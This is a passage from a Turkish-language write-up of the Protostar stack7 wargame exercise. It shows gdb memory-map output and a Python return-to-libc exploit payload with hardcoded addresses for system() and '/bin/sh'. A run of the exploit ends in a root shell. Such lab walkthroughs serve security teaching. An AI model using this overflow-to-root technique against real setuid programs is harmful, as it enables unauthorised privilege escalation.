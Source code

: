 Aranan stringin ofsetini dosya içindeki ofsetini bulduk, gdb ile libs programda hangi adreste buna bakalım.
```bash
(gdb) info proc map
process 1588
cmdline = '/opt/protostar/bin/stack7'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fe0000 0xb7fe2000     0x2000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
```
libc `0xb7e97000` adresinden başlıyor. Bizim argümanımız olan string `11f3bf` ofsetindeydi. İkisini toplarsak aradığımız adresi `0xB7FB63BF` olarak buluyoruz.O zaman kodu yazalım:
```python
junk = 'A'*80
ret_addr = '\x44\x85\x04\x08' #0x08048544 ret komutu adresi
system_addr = '\xb0\xff\xec\xb7' #0xb7ecffb0 system fonksiyonu adresi
fake_ret = 'B'*4
bin_sh_addr = '\xbf\x63\xfb\xb7' #0xB7FB63BF /bin/sh adresi

print junk + ret_addr + system_addr + fake_ret + bin_sh_addr
```
Ve çalıştıralım...
```bash
user@protostar:/tmp$ (python stack7.py; cat)| /opt/protostar/bin/stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAD�AAAAAAAAAAAAD�����BBBB�c��
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
GG :)
```
Bu aşamayı da başarıyla tamamladık ve protostar serisinin stack bölümünü tamamlamış olduk. Okuduğunuz için teşekkürler, umarım bi faydası olmuştur. Protostar format sorularında görüşmek üzere... 